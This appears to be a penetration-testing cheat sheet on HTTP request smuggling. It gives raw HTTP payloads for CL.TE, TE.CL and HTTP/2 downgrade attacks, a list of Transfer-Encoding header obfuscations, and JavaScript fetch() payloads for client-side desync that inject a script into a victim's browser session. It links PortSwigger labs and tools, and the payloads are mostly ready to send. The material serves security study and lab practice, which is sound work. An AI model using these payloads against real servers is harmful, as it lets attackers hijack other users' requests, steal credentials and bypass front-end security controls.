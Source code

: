 # Request Smuggling

> HTTP Request smuggling occurs when multiple "things" process a request, but differ on how they determine where the request starts/ends. This disagreement can be used to interfere with another user's request/response or to bypass security controls. It normally occurs due to prioritising different HTTP headers (Content-Length vs Transfer-Encoding), differences in handling malformed headers (eg whether to ignore headers with unexpected whitespace), due to downgrading requests from a newer protocol, or due to differences in when a partial request has timed out and should be discarded.

## Summary

* [Tools](#tools)
* [CL.TE vulnerabilities](#cl.te-vulnerabilities)
* [TE.CL vulnerabilities](#te.cl-vulnerabilities)
* [TE.TE behavior: obfuscating the TE header](#te.te-behavior-obfuscating-the-te-header)
* [References](#references)

## Tools

* [HTTP Request Smuggler / BApp Store](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)
* [Smuggler](https://github.com/defparam/smuggler)
* [Simple HTTP Smuggler Generator CL.TE TE.CL](https://github.com/dhmosfunk/simple-http-smuggler-generator) > this tool does not offer automated exploitation. You have to identify the injection point and exploit it manually!


## About CL.TE | TE.CL Vulnerabilities
If you want to exploit HTTP Requests Smuggling manually you will face some problems especially in TE.CL vulnerability you have to calculate the chunk size for the second request(malicious request) as portswigger suggests `Manually fixing the length fields in request smuggling attacks can be tricky.`. For that reason you can use the [Simple HTTP Smuggler Generator CL.TE TE.CL](https://github.com/dhmosfunk/simple-http-smuggler-generator) and exploit the CL.TE TE.CL vulnerabilities manually and learn how this vulnerability works and how you can exploit it. This tool offers you only the second request with a valid chunk size(TE.CL) auto-generated but does not offer automated exploitation. You have to identify the injection point and exploit it manually!





## CL.TE vulnerabilities

> The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. 

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence \r\n\r\n following the final 0.

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE behavior: obfuscating the TE header

> The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## HTTP/2 Request Smuggling

HTTP/2 request smuggling can occur if a machine converts your HTTP/2 request to HTTP/1.1, and you can smuggle an invalid content-length header, transfer-encoding header or new lines (CRLF) into the translated request. HTTP/2 request smuggling can also occur in a GET request, if you can hide an HTTP/1.1 request inside an HTTP/2 header

```
:method GET
:path /
:authority www.example.com
header ignored\r\n\r\nGET / HTTP/1.1\r\nHost: www.example.com
```

Challenge: https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling

## Client-side desync

On some paths, servers don't expect POST requests, and will treat them as simple GET requests, ignoring the payload, eg:

```
POST / HTTP/1.1
Host: www.example.com
Content-Length: 37

GET / HTTP/1.1
Host: www.example.com
```

could be treated as two requests when it should only be one. When the backend server responds twice, the frontend server will assume only the first response is related to this request.

To exploit this, an attacker can use JavaScript to trigger their victim to send a POST to the vulnerable site:

```javascript
fetch('https://www.example.com/', {method: 'POST', body: "GET / HTTP/1.1\r\nHost: www.example.com", mode: 'no-cors', credentials: 'include'} )
```

This could be used to:

* get the vulnerable site to store a victim's credentials somewhere the attacker can access it
* get the victim to send an exploit to a site (eg for internal sites the attacker cannot access, or to make it harder to attribute the attack)
* to get the victim to run arbitrary JavaScript as if it were from the site

Eg:
```javascript
fetch('https://www.example.com/redirect', {
    method: 'POST',
        body: `HEAD /404/ HTTP/1.1\r\nHost: www.example.com\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,
        credentials: 'include',
        mode: 'cors' // throw an error instead of following redirect
}).catch(() => {
        location = 'https://www.example.com/'
})
```

tells the victim browser to send a POST request to www.example.com/redirect. That returns a redirect which is blocked by CORS, and causes the browser to execute the catch block, by going to www.example.com. 

www.example.com now incorrectly processes the HEAD request in the POST's body, instead of the browser's GET request, and returns 404 not found with a content-length, before replying to the next misinterpreted third (`GET /x?x=<script>...`) request and finally the browser's actual GET request.
Since the browser only sent one request, it accepts the response to the HEAD request as the response to its GET request and interprets the third and fourth responses as the body of the response, and thus executes the attacker's script.

Challenge: https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync

## References

* [PortSwigger - Request Smuggling Tutorial](https://portswigger.net/web-security/request-smuggling) and [PortSwigger - Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
* [A Pentester's Guide to HTTP Request Smuggling - Busra Demir - 2020, October 16](https://www.cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling)
* [Advanced Request Smuggling - PortSwigger](https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-smuggling)
* [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling - James Kettle - 10 August 2022](https://portswigger.net/research/browser-powered-desync-attacks)
